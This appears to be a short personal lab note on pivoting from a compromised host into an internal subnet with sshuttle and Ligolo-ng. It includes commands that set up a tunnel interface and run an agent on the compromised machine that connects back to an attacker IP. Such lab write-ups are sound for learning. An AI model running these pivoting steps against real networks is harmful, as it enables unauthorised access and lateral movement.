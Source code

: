Let's see among the 5 host which we can ping ?_?

So 1st thing that came to my mind is sshuttle 
```
sshuttle -r linux-admin@10.201.11.33 -N
```
![[Pasted image 20240822204612.png]]


```
http://10.201.11.30/
```
![[Pasted image 20240822205040.png]]

So it was simple but but let's try it a different tool that i am trying to use for a long time
and yes you have guessed it right.


## Ligolo-ng

Let's set up the agent and upload the proxy in the compromised asset.

Proxy | Attacker :  10.51.9.13

Agent | Compromised Asset : 10.201.11.33

gunzip

tar -xvzf 

```
ip tuntap add user root mode tun ligolo
```

```
ip link set ligolo up
```

```
ip route add 10.201.11.0/24 dev ligolo
```

![[Pasted image 20240823110914.png]]



## Attacker
```
sudo ./proxy -selfcert
```


Compromised
```
chmod +x agent
```

```
./agent -connect 10.10.14.2:11601 -ignore-cert
```


So again the box got dead so i think i will not able to use option for some reason and wait for HTB dante.


